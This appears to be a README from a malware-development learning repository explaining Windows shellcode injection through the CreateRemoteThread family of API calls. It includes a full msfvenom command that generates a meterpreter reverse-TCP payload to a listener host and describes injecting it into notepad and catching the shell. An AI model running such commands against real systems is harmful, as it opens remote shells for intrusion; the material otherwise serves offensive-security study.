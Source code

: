 ## `💉` Shellcode Injection

This technique is as vanilla as it gets; the simplest. It's also *quite* elegant. By attaching to an existing process, we're able to inject our own shellcode into it and have our shellcode run. A bit of an oversimplification since there's actually a lot going on under the covers; but we'll talk about that next. We're going to be using a lot of **Win32 API** calls for our malware development until we get more advanced in our craft. I've created another repo called [low-level](https://github.com/cr-0w/low-level) that also documents my experience with low-level languages including: `Assembly`, `C`, `C++`, `Win32 API`, etc. You could take a gander at it before coming here in case you're brand-brand new.

A shellcode injection consists of the following API calls:

- `OpenProcess()`
- `VirtualAllocEx()`
- `WriteProcessMemory()`
- `CreateRemoteThread()`

> **Note**:
> *All of the documentation for these functions, as well as the Win32 API can be found/read from [Microsoft themselves](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-api-list). It's an amazing resource; although it may seem extremely daunting at first. However, I promise that if you take the time to actually read it - as well as read the related documents that use your function, you'll come to appreciate this resource.*

## `💽` Demo

https://user-images.githubusercontent.com/59679082/220434097-27645ac4-c8a8-4679-bee8-f5ec277853a0.mp4

## `⚠️` Malicious Shellcode Example

> **Warning**:
> *The final code, isn't exactly a super-vanilla implementation of this technique. I included my code from the [process enumeration](https://github.com/cr-0w/low-level/tree/main/Win32%20API/5-enumerateprocess) part of my [low-level](https://github.com/cr-0w/low-level) repository. I thought it would be a neat little way of combining some concepts.*

In this example, I opted to go for harmless shellcode, which just pops-a-calc. You could definitely swap out your shellcode for something like a meterpreter shell or something. If I can help it, I'll try to opt for the less-malicious shellcode as a PoC. However, since this is our *first* time doing this, why not be a little extra? 😊

First, let's generate some shellcode with `msfvenom`. We'll try to get a simple meterpreter reverse shell going. 

```bash
cr0w@blackbird: ~
ζ ›› msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.198.128 LPORT=443 exitfunc=thread -b "\x00" -f c
```

![image](https://user-images.githubusercontent.com/59679082/220697432-372ce7ba-21d6-406f-b85a-9fde69b94130.png)

> **Note**:
> *Obviously, this would IMMEDIATELY get flagged by pretty much any AV/EDR; so, if you're planning on running this in a patched environment, good luck.*


With the shellcode now generated, we can include it in our script.

```cpp
unsigned char buf[] = ""; // SHELLCODE HERE
```

![image](https://user-images.githubusercontent.com/59679082/220699108-2a9717cb-eda9-465b-8e87-7ca8534ccafe.png)

Nice, our script is now *locked and loaded*. Let's compile it, and get our `exploit/multi/handler` ready to catch the shell. 

![image](https://user-images.githubusercontent.com/59679082/220700137-31a60641-0aa3-4fd9-bc35-4d115d8c5edd.png)

Finally, we can now use our executable to see if we catch a shell. Let's see how it goes:

https://user-images.githubusercontent.com/59679082/220713806-f2b4d399-f045-4699-805a-c4da7c7c930e.mp4

We can also inspect the notepad process after getting a shell. We can see that it gets a new DLL that it [should otherwise never have](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection#references). `ws2_32.dll` which is responsible for sockets.

![image](https://user-images.githubusercontent.com/59679082/220707821-832d13fc-99ad-422f-80a4-b1a5a5f935e7.png)


## `💖` Extra Resources

Some other resources you can use to read up on this technique are:

- [CreateRemoteThread Shellcode Injection](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection)
- [Process Injection using CreateRemoteThread API](https://tbhaxor.com/createremotethread-process-injection/)
- [Process Injection: Remote Thread Injection or CreateRemoteThread](https://aliongreen.github.io/posts/remote-thread-injection.html)
